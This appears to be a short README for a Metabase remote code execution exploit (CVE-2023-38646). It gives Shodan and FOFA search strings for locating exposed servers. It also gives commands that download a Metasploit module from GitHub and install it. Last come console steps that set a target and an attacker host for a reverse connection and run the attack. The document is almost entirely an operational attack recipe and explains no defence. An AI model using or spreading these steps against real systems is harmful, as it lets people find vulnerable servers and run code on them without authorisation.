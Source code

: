 # CVE-2023-38646
Metabase Remote Code Execution Exploit

- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/linux/http/metabase_setup_token_rce.rb
```
```
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set rhosts target_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set lhost attacker_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > run
```
